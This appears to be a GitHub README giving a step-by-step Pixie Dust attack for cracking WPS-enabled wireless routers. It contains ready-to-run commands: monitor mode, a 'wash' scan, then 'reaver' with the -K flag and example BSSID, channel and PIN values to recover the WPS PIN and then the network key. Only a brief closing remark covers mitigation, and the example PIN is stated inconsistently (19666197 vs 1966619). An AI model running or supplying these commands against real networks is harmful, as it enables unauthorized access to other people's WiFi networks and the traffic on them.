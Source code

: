 (https://github.com/KKCyberExpert/Pixie-Dust-Attack----Crack-Wireless-Routers/assets/153437848/f4659278-5174-4410-86bf-3a79b17b2165)

# Pixie-Dust-Attack----Crack-Wireless-Routers
Pixie Dust Attack -- Crack Wireless Routers



Pixie Dust Attack
As we told we need a WiFi adapter that supports monitor mode. The first thing we need to do put our interface in the monitor mode. We can check the list of interfaces by using following command:

iwconfig

sudo wash -i wlan1mon -s

We need to use the command as this   ---->
sudo reaver -i <monitor-mode-interface> -b <target-BSSID> -d 7 -c <No. of channel> -K 1 --mac -vv

sudo reaver -i wlan1mon -b <Your -BSSID> -d 7 -c <Channel> -K 1 --mac -vv   ---------> example --------->  sudo reaver -i wlan1mon -b 40:C8:CB:05:4D:19 -d 7 -c 6 -K 1 --mac -vv


After collecting the pin we can easily get the WPS key by simply removing -K flag and using -p flag following the noted PIN.

An example command will be like following: -------->    sudo reaver -i wlan1mon -b 40:C8:CB:05:4D:19 -vvNwL -c 1 -p 19666197


Here we assume that 1966619 is our noted pin.

This method is very very effective if the target still using old WiFi router. This attack goes back to early 2010s and most of the vendors have already patched this issue.

This vulnerability can be patched by turning off WPS feature. The router vendors then uses mac blocking for too much WPS requests. So, it doesn't mean that we can get WPS PIN of every WPS enabled routers.
